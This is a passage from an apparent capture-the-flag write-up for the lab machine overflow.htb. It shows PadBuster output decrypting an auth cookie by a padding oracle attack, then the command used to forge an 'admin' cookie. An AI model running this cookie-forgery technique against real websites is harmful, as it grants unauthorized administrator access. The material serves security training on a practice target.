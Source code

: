 ```
[+] Success: (119/256) [Byte 7]
[+] Success: (11/256) [Byte 6]
[+] Success: (21/256) [Byte 5]
[+] Success: (140/256) [Byte 4]
[+] Success: (168/256) [Byte 3]
[+] Success: (104/256) [Byte 2]
[+] Success: (2/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): a525b0d8f5648146
[+] Intermediate Bytes (HEX): f69f5e71eff68b5f
[+] Plain Text: user=sm1

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (190/256) [Byte 8]
[+] Success: (122/256) [Byte 7]
[+] Success: (158/256) [Byte 6]
[+] Success: (12/256) [Byte 5]
[+] Success: (40/256) [Byte 4]
[+] Success: (52/256) [Byte 3]
[+] Success: (239/256) [Byte 2]
[+] Success: (63/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): a3bfc0ae2fbd93b1
[+] Intermediate Bytes (HEX): c916caddf0618443
[+] Plain Text: l3z

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=sm1l3z

[+] Decrypted value (HEX): 757365723D736D316C337A0505050505

[+] Decrypted value (Base64): dXNlcj1zbTFsM3oFBQUFBQ==

-------------------------------------------------------
```

Registering an `admin` user was unsuccessful meaning it might already exist. Knowing the scheme of the cookie we can use padbuster again with the `-plaintext` flag to generate a valid cookie for `admin`.

```
$ padbuster http://overflow.htb g%2Bw7A9KF5m6lJbDY9WSBRqO%2FwK4vvZOx 8 -cookies auth=g%2Bw7A9KF5m6lJbDY9WSBRqO%2FwK4vvZOx -encoding 0 -plaintext user=admin

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: home/index.php
[+] Content Length: 12227

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2
```